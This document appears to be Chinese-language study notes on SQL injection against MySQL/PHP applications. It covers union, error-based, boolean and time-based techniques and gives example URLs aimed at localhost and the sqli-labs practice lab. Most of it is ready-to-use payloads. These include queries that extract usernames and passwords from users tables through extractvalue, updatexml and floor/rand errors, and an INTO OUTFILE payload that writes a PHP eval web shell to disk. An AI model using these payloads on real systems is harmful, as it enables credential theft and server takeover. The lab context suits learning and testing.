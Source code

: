 # sql注入
	通过传入特定的参数，打破原有的sql语句结构
# sql注入上传文件,把select后面的结果保存到文件
```
	select "",<?php eval($_REQUEST[666])?>  into outfile "d:/1.txt"   
```
# 注入步骤
## 	1.探测注入点
		and 1=1    或    and 1=2     如果结果一样就是没执行
		' 或 "    '如果报错，说明有注入点
##	2.确定注入点是否真的存在
		 and 1=1  或 and 1=2  如果1=1有结果，1=2没有结果就证明注入点存在
			 '' LIMIT 0,1'，去掉两边的单引号，
## 3.注入手法
### 联合查询
### 优点，简单，速度快
### 缺点，必须要有回显。
union 用来连接多个查询语句，要求查询语句的字段数一样
1.探测注入点
2.确定sql语句有多少字段
```
order by 1   按照第一个字段排序，成功就最少有一个字段
order by 5   按照第5个字段排序，成功就最少有5个字段，出错就说明没有第五个字段
select 1，2
```   
### 3.调数据
```
当前数据库名  select database();  
当前登录用户	select user();    或者  select current_user();
数据库安装路径     select  @@baseDir;
数据库路径	   select  @@datadir
数据库版本	   select  @@version;
web主目录	   select  @@dataDir；  
5.0以上版本的mysql有information_schema 数据库，里面有整个mysql的所有信息
schemata表的schema_name字段有mysql中所有数据库的名
concat（1，2，3） 把1，2，3拼接到一块，如果1，2，3是字段就把字段拼接到一块
group_concat(字段名)    把查询的数据拼接成一行。
substr（字符串，开始位置，个数）字符串截取函数，从第几个开始，截取几个
```

### 查当前数据库服务器所有数据库
```									
union select schema_name from information_schema.schemata limit 0,1 --  //limit 是从第几条开始，显示几条，LIMIT 5,10; //检索记录行6-15
```
### 查表
```
union select table_name from information_schema.tables where table_schema ='库名' --
```
### 查字段
```
union select column_name from information_schema.columns where table_schema='库名' and table_name='表名' --
```
## 报错注入
### 优点，不需要回显
### 缺点，需要有报错信息，指的是数据库报错信息，速度较快
floor(4.5)   结果4，进一
```
http://localhost/php/2.php?id=3 and(select 1 from(select count(*),
concat((select (select (select concat(0x7e,user(),0x7e)))
from information_schema.tables limit 0,1),floor(rand(0)*2))
x from information_schema.tables group by x)a)  #暴用户名；
http://localhost/sqli/Less-5/?id=1' and (select 1 from (select count(*),
concat((select concat(username,password) from security.users limit 0,1),
floor(rand(0)*2))x from information_schema.tables group by x)a) --+ 爆数据
payload		and (select 1 from (select count(*),concat((payload),floor(rand(0)*2))x frominformation_schema.tables group by x)a)
payload		and extractvalue(1, payload)  注：输出字符有长度限制，最长32位and extractvalue(1, concat(0x7e,@@version,0x7e))
http://localhost/php/2.php?id=1 and extractvalue(1,concat(0x7e,(select database()),0x7e)) #暴数据库
http://localhost/sqli/Less-5/?id=1%27%20and%20extractvalue(1,concat(0x7e,(select%20concat(username,0x7e,password)%20from%20security.users%20limit%200,1),0x7e))%20--+   爆数据
payload		and updatexml(1,payload,1)  注：输出字符有长度限制，最长32位
and updatexml(1,concat(0x7e,@@version,0x7e),1)
and updatexml(1,concat(0x7e,(select @@version),0x7e),1)%20--+
```


## 布尔注入
### 优点，不需要回显
### 缺点，速度慢,需要查询语句有正常执行和不正常执行
```
length（"123456"）  结果6
ord （）= ascii（）  ASCII码
```			
确定数据库名称长度是否大于5
```
length（database()）>5 --
```
取数据库第一个字符的ascII码,是不是大于80
```
ascII(substr(database(),1,1))>80
```
## 延时 ,靠数据返回的时间判断数据是否正确
### 优点：不需要显示位，不需要报错信息，不需要查询正常不正常返回不一样
### 缺点：速度太慢，受网络波动影响较大
```
		   select sleep（5）   一条数据5秒之后显示查询结果
		   if（a,b,c）		a执行成功执行b,不成功执行c
```
```
 http://localhost/sqli/Less-10/?id=1" and if(ascii(substr(database(), 1, 1))>104, sleep(5), 1) --%20  爆库
```


# 总结：
	注入参数位置：任何可以由客户端控制的传递给服务端的参数都有可能发生sql注入
```
select
updata
delete
insert
```
sql注入   数据拖库 控制服务器
information_schema   元数据数据库
## 所有的库名	SCHEMATA
```
SHCEMA_NAME字段所有的数据库名
```
## 所有的表名	tables
```
table_schema当前表所属库的名字
table_name 当前表名
```
## 所有的字段名	columns
```
table_schema 字段所属的库名
table_name 字段所属的表名
column_name字段名				
```
## 查看数据库配置文件的secure_file_priv的属性值，为空则可以写入文件,需要php.ini 中display_errors=On开启PHP错误回显,显示报错信息
```
show variables like '%secure_file_priv'
```   

